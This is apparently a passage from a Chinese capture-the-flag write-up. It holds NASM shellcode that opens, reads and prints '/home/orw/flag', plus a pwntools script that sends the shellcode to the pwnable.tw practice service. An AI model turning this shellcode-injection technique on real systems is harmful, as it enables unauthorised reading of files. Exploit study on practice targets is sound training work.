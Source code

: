 写个汇编实现读取并输出的操作：

```nasm
BITS 32

_start:
	sub esp, 200
	mov dword [esp], 0x6d6f682f
	mov dword [esp + 4], 0x726f2f65
	mov dword [esp + 8], 0x6c662f77
	mov dword [esp + 12], 0x6761

_open:
	mov eax, 5
	mov ebx, esp
	xor ecx, ecx
	xor edx, edx
	int 0x80

_read:
	mov ebx, eax
	mov eax, 3
	mov ecx, esp
	mov edx, 100
	int 0x80

_write:
	mov ebx, 1
	mov ecx, esp
	mov edx, eax
	mov eax, 4
	int 0x80

_exit:
	add esp, 200
	ret
```

用 nasm 编译后获取 flag：

```python
#!/usr/bin/env python
from pwn import *

r = remote('chall.pwnable.tw', 10001)

sh = open('sh', 'rb').read()
r.recvuntil('Give my your shellcode:')
r.sendline(sh)

r.interactive()
```

## Death Note
